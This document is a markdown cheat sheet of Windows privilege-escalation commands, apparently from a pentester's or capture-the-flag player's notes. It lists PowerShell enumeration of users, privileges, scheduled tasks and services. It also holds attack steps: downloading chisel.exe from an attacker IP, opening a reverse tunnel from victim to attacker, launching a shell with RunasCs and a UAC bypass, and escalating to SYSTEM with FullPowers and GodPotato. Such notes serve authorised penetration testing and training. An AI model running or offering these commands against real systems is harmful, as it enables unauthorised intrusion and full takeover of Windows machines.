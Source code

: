 ```yaml
---
title: Windows Privilege Escalation
---
```


# Windows Privilege Escalation
## Enum tools
- [Win Peas](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)

## Resources
- [hacktricks (windows)](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation)

## Basic Enum
### Powershell
```powershell
# System info
sysinfo
Get-CimInstance -ClassName Win32_OperatingSystem | Select-Object Name, Version, OSArchitecture
Get-CimInstance -ClassName Win32_BIOS | Select-Object Name, Version

# User/Group/Permission info
whoami
whoami /priv
whoami /groups
net share
net user
net user SomeAccount
net localgroup
net localgroup Administrators
net session
net config workstation
Get-WmiObject -Class Win32_UserAccount -Filter "LocalAccount='True'"

# Ports used
netstat -ano

# Scheduled tasks
Get-ScheduledTask
Get-ScheduledTask | where {$_.Principal.UserId -eq "NT AUTHORITY\SYSTEM"}
Get-ScheduledTask | ForEach-Object { [PSCustomObject]@{ TaskName = $_.TaskName; Action = ($_.Actions).Execute } }
Get-ScheduledTask | Where-Object { $_.Principal.LogonType -eq 'InteractiveTokenOrPassword' }

# Processes/Services
Get-Process
Get-Service
Get-Service | Where-Object {$_.Status -eq "Running"}
Get-WmiObject win32_service | Where-Object {$_.StartName -like "NT Authority*"}

# Check installed Software
Get-ItemProperty HKLM:\Software\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\* | Select-Object DisplayName, DisplayVersion, Publisher, InstallDate
Get-CimInstance -ClassName Win32_Product | Select-Object Name, Version
```

## Utils
### Powershel http fetch
```powershell
Invoke-WebRequest -Uri "http://10.10.10.10:8000/chisel.exe" -OutFile "chisel.exe"
```

### Chisel port forwarding
```powershell
# Attacker
chisel server -p 8000 --reverse

# Victim
chisel client http://x.x.x.x:8000 R:9200:127.0.0.1:9200
```

## runas
```batch
runas /user:Administrator cmd.exe
```
### RunasCs
- [RunasCs](https://github.com/antonioCoco/RunasCs)
```powershell
.\RunasCs.exe user password "shell.exe" --bypass-uac --logon-type 8
```

## FullPowers
When `LocalService` or `NetworkService`
- [Fullpowers](https://github.com/itm4n/FullPowers)

```powershell
.\FullPowers.exe -x
```

## GodPotato
When `ImpersonatePrivilege`
- [GodPotato](https://github.com/BeichenDream/GodPotato)

```powershell
.\GodPotato.exe -cmd "cmd /c whoami"
```
